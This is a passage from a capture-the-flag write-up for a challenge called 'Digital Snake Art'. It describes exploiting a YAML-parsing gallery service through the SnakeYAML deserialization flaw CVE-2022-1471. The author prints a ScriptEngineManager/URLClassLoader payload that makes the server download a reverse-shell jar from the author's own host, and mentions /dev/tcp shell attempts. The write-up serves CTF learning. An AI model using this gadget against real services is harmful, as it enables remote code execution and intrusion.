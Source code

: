 # Digital Snake Art

## Description
I'm a big fan of digital art!

How do you like my new gallery?

http://ch.hackyeaster.com:2307

Note: The service is restarted every hour at x:00.

<img width="300" alt="image" src="https://user-images.githubusercontent.com/2973929/234147383-1a18a1b5-4a08-446c-804c-c7e652d646b8.png">

<img width="554" alt="image" src="https://user-images.githubusercontent.com/2973929/234147408-ad940e01-05c4-4ba9-80a2-9470a1d87b56.png">

## Solution

This one took me a full day to complete.

First, the payload for a "normal" request:

```
echo -n "bmFtZTogU25ha2VzIGF0IHRoZSBCZWFjaAppbWFnZTogc25ha2VzX2F0X3RoZV9iZWFjaApzb3VyY2U6IERBTEwtRQpyZXNvbHV0aW9uOiAyNTZ4MjU2"| base64 -d
name: Snakes at the Beach
image: snakes_at_the_beach
source: DALL-E
resolution: 256x256
```

It's a YAML with the info. I suspected I could inject some file name in `image:` like /flag.txt and be happy, but that was definitely not the case. 
After googling a lot I came to know about [CVE-2022-1471](https://nvd.nist.gov/vuln/detail/CVE-2022-1471) and I quickly found some [PoCs](https://github.com/artsploit/yaml-payload/) promising RCEs and reverse shells using javax.net.URLClassLoader, which (for what I could make of it) should let you load an external Class by URL. 
I spent all my day trying to achieve that, and although I could get the server to download my malicious .jar files, I never got it to run them, and oh boy, I tried.
The payload I used to make the server download my exploit was:

```yaml
name: Snakes at the Beach
image: snakes_at_the_beach
source: DALL-E
resolution: !!javax.script.ScriptEngineManager [  !!java.net.URLClassLoader [[    !!java.net.URL ["http://myserver/revshell.jar"]  ]]]
```
I've tried jars to `ping`, `echo > /dev/tcp/` and a lot of other things, but the application _NEVER_ ran my code. I have no idea why.

It took my a while to find out that the source code for the application was available, and although I'm no Java Programmer, I still know how to read. 
